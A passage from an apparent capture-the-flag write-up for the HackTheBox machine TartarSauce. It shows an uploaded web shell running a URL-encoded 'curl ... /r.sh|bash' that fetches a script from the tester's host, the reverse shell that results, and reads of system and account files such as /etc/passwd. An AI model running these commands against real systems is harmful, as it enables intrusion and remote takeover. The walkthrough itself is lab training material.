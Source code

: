 Setting up local webserver
```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

And accessing it from the host (_url encoded "curl http://10.10.14.45/r.sh|bash"_)
```
# curl -s http://tartarsauce.htb/sh.php7?cmd=curl%20http%3A%2F%2F10.10.14.45%2Fr.sh%7Cbash|html2text
```
We get a hit on the webserver
```
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.88 - - [20/Nov/2021 08:56:35] "GET /r.sh HTTP/1.1" 200 -
```

And a reverse shell in the listener
```
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9876
Ncat: Listening on 0.0.0.0:9876
Ncat: Connection from 10.10.10.88.
Ncat: Connection from 10.10.10.88:40238.
bash: cannot set terminal process group (1248): Inappropriate ioctl for device
bash: no job control in this shell
www-data@TartarSauce:/var/www/html$
```
Gaining some basic information - host is running Ubunto 16.04.4 with 4.15.0 kernel and webserver is running under _www-data_ user.
```
www-data@TartarSauce:/var/www/html$ uname -a; cat /etc/issue; id
uname -a; cat /etc/issue; id
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
Ubuntu 16.04.4 LTS \n \l

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Checking /etc/passwd and /home for users with shells identifies username _onuma_
```
www-data@TartarSauce:/var/www/html$ grep sh /etc/passwd
grep sh /etc/passwd
root:x:0:0:root:/root:/bin/bash
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
onuma:x:1000:1000:,,,:/home/onuma:/bin/bash
www-data@TartarSauce:/var/www/html$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root  root  4096 Feb  9  2018 .
drwxr-xr-x 22 root  root  4096 May  1  2018 ..
drwxrw----  5 onuma onuma 4096 Feb 21  2018 onuma
```

